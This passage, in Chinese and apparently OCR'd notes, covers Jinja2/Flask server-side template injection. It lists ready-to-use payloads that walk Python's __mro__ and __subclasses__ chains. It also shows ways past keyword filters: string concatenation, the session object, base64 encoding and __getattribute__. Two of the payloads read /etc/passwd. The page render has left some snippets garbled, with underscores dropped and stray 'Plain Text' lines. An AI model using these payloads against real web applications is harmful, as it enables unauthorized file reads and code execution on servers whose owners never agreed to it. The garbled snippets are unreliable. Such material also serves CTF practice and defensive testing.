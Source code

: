 

这里用到的是request:(稍微解释一下)


`{{''[request.args.a][request.args.b][2][request.args.c]()}}?a=__class__&b=__mro__&c=__subclasses__}}`


```plain
如下为常用的request姿势request.args.x1      get传参request.values.x1    post传参request.cookiesrequest.form.x1     post传参    (Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)request.data          post传参    (Content-Type:a/b)request.json      post传json  (Content-Type:application/json)
Plain Text
```



在Flask的官方文档中是这样介绍request的：对于 Web 应用，与客户端发送给服务器的数据交互至关重要。在 Flask 中由全局的 request 对象来提供这些信息。


### 过滤了subclasses等字符


```plain
拼凑法
原poc{{"".class.bases[0].subclasses()}}
绕过{{"".class.bases[0]'subcla'+'sses'}}
Plain Text
```



### 过滤class


```plain
使用sessionpoc{{session['cla'+'ss'].bases[0].bases[0].bases[0].bases[0].subclasses()[118]}}多个bases[0]是因为一直在向上找object类。使用mro就会很方便
Plain Text
```






### 过滤关键字


```plain
base64编码绕过(编码的话我隐约记得py3好像用不了)
__getattribute__使用实例访问属性时,调用该方法
例如被过滤掉__class__关键词
{{[].__getattribute__('X19jbGFzc19f'.decode('base64')).__base__.__subclasses__()[40]("/etc/passwd").read()}}
字符串拼接绕过
{{[].__getattribute__('__c'+'lass__').__base__.__subclasses__()[40]("/etc/passwd").read()}}
Plain Text
```



字符串拼接
